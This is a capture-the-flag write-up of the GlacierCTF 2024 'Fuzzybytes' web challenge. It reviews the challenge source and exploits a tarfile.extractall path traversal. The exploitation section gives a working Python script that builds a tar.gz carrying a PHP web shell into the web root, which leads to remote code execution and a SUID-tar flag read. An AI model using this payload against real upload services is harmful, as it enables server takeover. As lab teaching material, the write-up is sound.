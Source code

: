---------------

### CTF: GLACIER CTF 2024

---------------

![image](https://github.com/user-attachments/assets/cdce91a2-501c-40ed-8017-013608a71987)

---------------

### Challenges

- Web
  - Fuzzybytes

---------------

### Web: Fuzzybytes

![image](https://github.com/user-attachments/assets/bc6606d4-73d5-4934-b393-5305bc210a93)

---------------

### CODE REVIEW

-----------------

- The main sink can be traced with the aid of files `Dockerfile`, `upload.php` and `check_for_malicious_code.py` in the source code archive.
- Dockerfile-:

```docker
# Debian 12
# PHP 8.7.3
# Apache 2.4.59
FROM docker.io/library/php@sha256:b3ff205fcc739fc504750dab29d4c30afb2702730d37a1068a16c14f30a7d48f

RUN apt-get update && apt-get install -y python3 && apt-get clean

# Copy challenge required files
COPY ./config/php.ini $PHP_INI_DIR/php.ini
COPY ./web /var/www/html
COPY ./check_for_malicious_code.py /usr/
COPY ./flag.txt /root/flag.txt

RUN chown www-data:www-data /var/www/html/databases
RUN chmod +s /bin/tar
```

- The docker script copies the content of `web` to `/var/www/html` and copies the python script `check_for_malicious_code.py` to directory `/usr`.

```docker
COPY ./config/php.ini $PHP_INI_DIR/php.ini
COPY ./web /var/www/html
COPY ./check_for_malicious_code.py /usr/
```
- The major ones to note are outlined below,the flag file is copied to `/root/flag.txt` which means we need root privilege to read it.Secondly, ownership of directory `/var/www/html/databases` is granted to user `www-data` and lastly, suid permissions is granted to binary `tar`.

```docker
COPY ./flag.txt /root/flag.txt

RUN chown www-data:www-data /var/www/html/databases
RUN chmod +s /bin/tar
```
- Upload.php-:

```php
<?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $uploadDir = "/tmp/";
    $targetFile = $uploadDir . basename($_FILES["file"]["name"]);
    $fileExtension = pathinfo($_FILES["file"]["name"], PATHINFO_EXTENSION);
    $allowedExtensions = array('gz');

    echo '<div id="log"></div>';

    if (!in_array($fileExtension, $allowedExtensions)) {
        echo "Sorry, only .tar.gz files are allowed.";
        exit();
    }

    ob_start();

    
    function addLog($message) {
        echo "<script>document.getElementById('log').innerHTML += '$message<br>';</script>";
        ob_flush();
        flush();
    }

    addLog("Unpacking file...");
    
    if (move_uploaded_file($_FILES["file"]["tmp_name"], $targetFile)) {
        addLog("The file " . htmlspecialchars(basename($_FILES["file"]["name"])) . " has been uploaded.");

        if ($fileExtension === 'gz') {
            addLog("Scanning file...");

            // Execute python malware checker
            exec("python3 /usr/check_for_malicious_code.py " . escapeshellarg($targetFile), $output, $returnCode);

            if ($returnCode === 0) {
                addLog("Python script executed successfully.");
            } else {
                addLog("Error executing Python script.");
            }

            unlink($targetFile);
            addLog("Cleaning up...");

            addLog("Done.");

        }
    } else {
        addLog("Sorry, there was an error uploading your file.");
    }

    ob_end_flush();
}
?>



<link rel="stylesheet" type="text/css" href="styles.css">
<a href="index.php" class="back-button">Back to Homepage</a>
```

- The php file takes in a files via the `file` parameter, checks if the file ends with `gz` and only takes in `gzip` archives to prevent upload of php shells.It writes the file to `/tmp` directory.Lastly,it executes the python script that will be explain below and passes the uploaded gzip file as an argument to function `exec()`.We cannot pass in malicious systemcommand because of `escapeshellarg()`.

```php
exec("python3 /usr/check_for_malicious_code.py " . escapeshellarg($targetFile), $output, $returnCode);
```
- The main sink is in the python script which is `tarfile.extractall()`.The function `tarfile.extractall()` is vulnerable to path traversal in the sense that if an archived files is saved as `../../shell.php`,instead of saving it in the current directory.It parses the relative path and moves up 2 directories to save the file.In this scenario,the code extracts our gz file to `/tmp/<dirname>/`,we need to move up two directories to save our php shell in `/var/www/html/databases` since we have write access to it.

```python3
try:
    with tarfile.open(tar_file_path, 'r:gz') as tar:
        if not os.path.exists("/tmp/files_for_checking"):
            os.mkdir("/tmp/files_for_checking")
        tar.extractall("/tmp/files_for_checking")
    print("Successfully extracted the contents of the .tar file.")
```

### Exploitation

- I wrote a python script to create the tarfile.

```python3
#! /usr/bin/env python3
import tarfile
import io

tar = tarfile.TarFile.open('malicious.tar.gz', 'w:gz')

info = tarfile.TarInfo("../../var/www/html/databases/shell.php")
info.mode=0o444 # So it cannot be overwritten
php_shell = b"<?php echo system($_GET['cmd']); ?>"
info.size=len(php_shell)
tar.addfile(info,io.BytesIO(php_shell))
tar.close()
```

- Then,I uploaded it with curl

![image](https://github.com/user-attachments/assets/9df73440-efd6-4ed6-8bd3-d326fa14643e)

- RCE achieved-:

![image](https://github.com/user-attachments/assets/9e01d743-08c4-4759-a13b-10b288b4986a)

- Shell access-:

![image](https://github.com/user-attachments/assets/0d042417-02fc-490f-8275-0353abbc5b3b)

- I read the flag with suid binary `tar`.

![image](https://github.com/user-attachments/assets/34315eb1-3d38-410a-b2e9-c13362d0ab34)

- Flag-:```gctf{c0nGr4tZ_on_Z1p_sLiDinG_4nD_Tar_diving}```

-------------

### Reference-:

- [Mindsdb](https://github.com/mindsdb/mindsdb/security/advisories/GHSA-2g5w-29q9-w6hx)

--------------


